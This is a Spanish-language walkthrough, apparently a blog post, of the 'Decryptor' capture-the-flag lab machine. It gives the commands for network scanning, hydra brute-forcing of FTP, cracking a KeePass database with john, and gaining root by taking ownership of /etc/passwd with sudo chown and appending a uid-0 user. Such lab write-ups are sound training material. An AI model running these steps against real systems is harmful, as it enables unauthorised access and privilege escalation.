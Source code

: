 ```yaml
---
layout: post
title: "Decryptor"
date: 2024-06-21 11:15:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Decryptor </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/decryptor/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Decryptor/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Decryptor/arp.png){:.margin}

**2\.** Escaneando servicios y puertos activos en la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/nmap.png){:.margin}

**3\.** Verificando la web que corre apache, en la fuente por debajo encuentro codigo Brainfuck.

`http://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Decryptor/80code.png){:.margin}

**4\.** Decodeando en [dcodefr](https://www.dcode.fr/brainfuck-language), este puede ser una posible contraseña.

![img](/notas/public/img/thehackerlabs/Decryptor/dcodefr.png){:.margin}

**5\.** Probe fuerza bruta al ssh sin exito, pero al ftp si se pudo.

`hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p marioeatslettuce ftp://192.168.1.8:2121`

![img](/notas/public/img/thehackerlabs/Decryptor/hydra.png){:.margin}

**6\.** Me conecto por ftp, encuentro una base de datos de [Keepass](https://keepassxc.org/download/#linux), me lo descargo.

`ftp 192.168.1.8 -p 2121`

`dir`

`get user.kdbx`

![img](/notas/public/img/thehackerlabs/Decryptor/ftp.png){:.margin}

**7\.** Crackeando la contraseña de la base de datos.

`kepass2john user.kdbx > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/Decryptor/john.png){:.margin}

**8\.** Lo abrimos con keepass, y encuentro unas credenciales.

![img](/notas/public/img/thehackerlabs/Decryptor/keepass.png){:.margin}
![img](/notas/public/img/thehackerlabs/Decryptor/keepassok.png){:.margin}

**9\.** Me conecto por ssh como chiquero.

`ssh chiquero@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/sshchiquero.png){:.margin}

**10\.** Encuentro un binario que puedo ejecutar como root.

`sudo -l`

![img](/notas/public/img/thehackerlabs/Decryptor/sudol.png){:.margin}

**11\.** Escalando privilegios, [gtfobins](https://gtfobins.github.io/gtfobins/chown/#sudo).

_11.1- Cambio propietario al etc/passwd_

`sudo /usr/bin/chown chiquero:chiquero /etc/passwd`

`ls -l /etc/passwd`

![img](/notas/public/img/thehackerlabs/Decryptor/chown.png){:.margin}

_11.2- Genero una contraseña y agrego un usuario con permisos root, migro a este y ya somos root_

`openssl passwd micontra`

`echo 'super:$1$AFnwwj9w$4m5nsE/FkLlU.gvCtTntR1:0:0::/home/super:/bin/bash' >> /etc/passwd`

`su super`

![img](/notas/public/img/thehackerlabs/Decryptor/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>